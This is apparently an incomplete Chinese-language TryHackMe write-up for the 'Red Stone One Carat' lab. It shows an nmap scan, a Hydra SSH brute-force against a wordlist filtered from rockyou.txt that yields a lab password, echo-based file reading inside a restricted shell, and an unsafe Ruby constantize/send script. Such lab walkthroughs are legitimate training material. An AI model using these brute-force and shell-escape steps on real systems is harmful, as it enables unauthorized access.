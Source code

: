```yaml
---
sidebar_position: 160
tags: [Easy, Linux, 未完成]
title: "Red Stone One Carat"
description: "Red Stone One Carat"
sidebar_label: "Red Stone One Carat"
slug: /tryhackme/160
---
```


# Red Stone One Carat

## 端口扫描

```bash
root@ip-10-10-174-17:~/redstoneonecarat# nmap -sTCV -p- --min-rate 1000 10.10.182.190

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-09 04:36 BST
Nmap scan report for ip-10-10-182-190.eu-west-1.compute.internal (10.10.182.190)
Host is up (0.0054s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fe:e7:f2:f6:74:65:a6:dd:f2:94:cd:45:fd:f3:2b:2a (RSA)
|   256 34:a3:16:aa:b3:1f:83:ac:91:a3:31:b4:45:94:3c:c9 (ECDSA)
|_  256 75:23:c0:66:c7:2c:6e:12:0a:f7:04:61:2b:c6:12:62 (EdDSA)
MAC Address: 02:1B:C1:33:84:13 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.48 seconds
```

## 后渗透

### noraj

根据提示我筛选了密码, 最终获取到了密码

```bash
root@ip-10-10-174-17:~/redstoneonecarat# grep  'bu'  `locate rockyou.txt ` >> pass.txt
root@ip-10-10-174-17:~/redstoneonecarat# wc -l pass.txt 
126336 pass.txt
root@ip-10-10-174-17:~/redstoneonecarat# hydra -l noraj -P ./pass.txt  10.10.182.190 ssh -t 50 -I
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2023-10-09 09:07:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 50 tasks per 1 server, overall 50 tasks, 126339 login tries (l:1/p:126339), ~2527 tries per task
[DATA] attacking ssh://10.10.182.190:22/
[22][ssh] host: 10.10.182.190   login: noraj   password: cheeseburger
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 39 final worker threads did not complete until end.
[ERROR] 39 targets did not resolve or could not be connected
[ERROR] 50 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 2023-10-09 09:07:37
```

之后我们利用此来进行访问, 但是访问之后我们很遗憾进入的是一个局部 Shell

![image-20240709194703883](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-194705.png)

之后尝试了一系列的命令之后发现其只允许执行 echo 命令, 通过 GPT 的询问我发现了如果利用 echo列出目录以及查看当前目录的文件, 在其中我们发现一个提示文件, 其告诉我们应该去看看服务, 但是我们首先的任务是获取一个 Shell

```bash
red-stone-one-carat% echo *
bin user.txt
red-stone-one-carat% echo .*
.cache .hint.txt .zcompdump.red-stone-one-carat.2205 .zshrc
red-stone-one-carat% while read line; do echo $line; done < .hint.txt; echo $line
Maybe take a look at local services.
```

之后查看 bin 目录发现其存在一个 ruby 程序, 对其进行代码审计,

```bash
red-stone-one-carat% echo bin/*
bin/rzsh bin/test.rb
red-stone-one-carat% while read line; do echo $line; done < bin/test.rb; echo $line
#!/usr/bin/ruby

require 'rails'

if ARGV.size == 3
	klass = ARGV[0].constantize
	obj = klass.send(ARGV[1].to_sym, ARGV[2])
else
	puts File.read(__FILE__)
end
```

![image-20240709194712772](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-194714.png)